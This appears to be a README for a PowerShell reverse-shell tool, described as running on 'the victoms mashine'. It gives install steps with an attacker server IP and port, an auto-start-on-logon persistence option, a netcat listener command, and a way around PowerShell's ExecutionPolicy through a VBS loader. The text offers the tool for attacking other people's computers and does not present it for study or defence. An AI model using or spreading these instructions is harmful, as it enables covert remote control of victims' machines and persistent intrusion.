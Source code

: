 # Reverse Shell Tools

A simple tool to start a TCP reverse shell on the victoms mashine and run some pre-build commands.

# Auto Install

1. Download the install.ps1 from Releases

2. run it with .\install.ps1 -Path "[InstallPath]" -Server [IP:Port]

3. [?] There are additional parameters -Run (Runs the Script after install) -AutoStart (Starts the script automaticly after every logon)
 
# Usage Manual

1. Start a Listener Server (netcat: nc.exe -lp [port]) ; if you want tartget other pc's you need to forward your port

2. Start active.ps1 using powershell (if ExecutionPolicy is prohibited: edit the loader.vbs and change the 0 to 1 and run loader.vbs instead)

3. If you starting this script for the first time, it will ask you for the listener ip and port, so enter it (will be saved in listener.txt)

4. [?] Change the 1 back to 0 (there is no problem changing it while the script is beeing executed)

5. The Script should be now connected to the listener, type "/restart" to create the autostart files

6. [?] Type "/help" for further instruction
